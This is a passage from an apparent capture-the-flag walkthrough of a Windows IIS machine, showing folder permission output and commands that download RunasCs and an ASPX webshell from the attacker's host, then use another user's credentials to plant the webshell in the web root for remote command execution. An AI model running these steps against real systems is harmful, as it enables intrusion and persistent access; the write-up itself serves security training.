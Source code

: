 ```
                       NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                       BUILTIN\Administrators:(I)(F)
                       BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                       BUILTIN\Users:(I)(RX)
                       BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                       CREATOR OWNER:(I)(OI)(CI)(IO)(F)
```

However, C.Bum does not have PS Remote access and we don’t have a GUI but what we have are his credentials. Uploaded [RunasCs](https://github.com/antonioCoco/RunasCs) and [Laudanum’s ASPX webshell](https://github.com/jbarcia/Web-Shells/blob/master/laudanum/aspx/shell.aspx).

```
PS C:\inetpub> iwr -uri http://10.10.14.112/shell.aspx -outfile c:\users\public\shell.aspx
PS C:\inetpub> iwr -uri http://10.10.14.112/RunasCs.exe -outfile c:\users\public\RunasCs.exe
```

Used RunasCs to copy the ASPX webshell as C.Bum with robocopy.

```
PS C:\inetpub> c:\users\public\RunasCs.exe c.bum <REDACTED> "cmd /c robocopy c:\users\public\ c:\inetpub\development\ shell.aspx"

PS C:\inetpub> dir c:\inetpub\development
  Directory: C:\inetpub\development
	Mode                LastWriteTime         Length Name                                                                  
	----                -------------         ------ ----                                                                  
	d-----         5/7/2024  11:22 PM                css                                                                   
	d-----         5/7/2024  11:22 PM                fonts                                                                 
	d-----         5/7/2024  11:22 PM                img                                                                   
	d-----         5/7/2024  11:22 PM                js                                                                    
	-a----        4/16/2018   2:23 PM           9371 contact.html                                                          
	-a----        4/16/2018   2:23 PM          45949 index.html                                                            
	-a----         5/7/2024  11:22 PM           4334 shell.aspx
```

We achieved remote command execution as a machine account!

